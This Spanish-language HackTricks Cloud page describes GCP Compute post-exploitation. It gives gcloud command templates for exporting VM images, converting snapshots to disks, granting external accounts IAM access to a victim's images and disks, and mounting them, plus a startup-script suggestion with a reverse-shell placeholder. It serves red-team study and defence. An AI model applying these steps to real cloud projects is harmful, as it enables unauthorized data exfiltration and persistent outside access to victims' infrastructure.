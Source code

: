 # GCP - Compute Post Exploitation

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**artículos oficiales de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Compute

Para obtener más información sobre Compute y VPC (Networking) consulta:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imágenes localmente

Esto permitiría a un atacante **acceder a los datos contenidos dentro de imágenes existentes** o **crear nuevas imágenes de VM en ejecución** y acceder a sus datos sin tener acceso a la VM en ejecución.

Es posible exportar una imagen de VM a un bucket y luego descargarla y montarla localmente con el comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta acción, el atacante podría necesitar privilegios sobre el bucket de almacenamiento y definitivamente **privilegios sobre cloudbuild** ya que es el **servicio** que se va a solicitar para realizar la exportación. Además, para que esto funcione, el SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` necesita:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Y el SA `<project-id>-compute@developer.gserviceaccount.com` necesita:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Instantáneas y Discos localmente

No es posible exportar instantáneas y discos directamente, pero es posible **transformar una instantánea en un disco, un disco en una imagen** y siguiendo la **sección anterior**, exportar esa imagen para inspeccionarla localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeccionar una imagen creando una VM

Con el objetivo de acceder a los **datos almacenados en una imagen** o dentro de una **VM en ejecución** desde donde un atacante **ha creado una imagen**, es posible otorgar acceso a una cuenta externa sobre la imagen:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

y luego crear una nueva VM a partir de ella:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Si no pudiste dar acceso a tu cuenta externa sobre la imagen, podrías lanzar una VM utilizando esa imagen en el proyecto de la víctima y **hacer que los metadatos ejecuten un shell inverso** para acceder a la imagen agregando el parámetro:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Inspeccionar un Snapshot/Disk adjuntándolo a una VM

Con el objetivo de acceder a los **datos almacenados en un disco o un snapshot, podrías transformar el snapshot en un disco, un disco en una imagen y seguir los pasos anteriores.**

O podrías **conceder acceso a una cuenta externa** sobre el disco (si el punto de partida es un snapshot, otorgar acceso sobre el snapshot o crear un disco a partir de él):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Adjuntar el disco** a una instancia:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Montar el disco dentro de la VM:

1. **Accede por SSH a la VM**:

```sh
gcloud compute ssh [NOMBRE_INSTANCIA] --zone [ZONA]
```

2. **Identifica el Disco**: Una vez dentro de la VM, identifica el nuevo disco listando los dispositivos de disco. Normalmente, lo encontrarás como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatea y Monta el Disco** (si es un disco nuevo o sin formato):

* Crea un punto de montaje:

```sh
sudo mkdir -p /mnt/disks/[DIRECTORIO_MONTAJE]
```

* Monta el disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DISCO] /mnt/disks/[DIRECTORIO_MONTAJE]
```

Si **no puedes dar acceso a un proyecto externo** a la instantánea o disco, es posible que necesites **realizar estas acciones dentro de una instancia en el mismo proyecto que la instantánea/disco**.
